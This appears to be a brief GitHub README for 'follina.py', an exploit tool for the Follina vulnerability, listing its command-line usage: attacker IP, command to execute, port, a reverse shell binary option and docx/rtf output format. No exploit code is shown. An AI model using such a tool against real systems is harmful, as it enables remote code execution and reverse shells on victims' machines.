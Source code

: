 # Follina
Follina vulnerability exploit

Usage:
./follina.py -u [YOUR IP ADDRESS] -c [COMMAND TO EXECUTE]

Optional arguments:
	-p [custom port]	
	-r [reverse shell binary]
	-o [output file]
	-f [format (docx/rtf)]
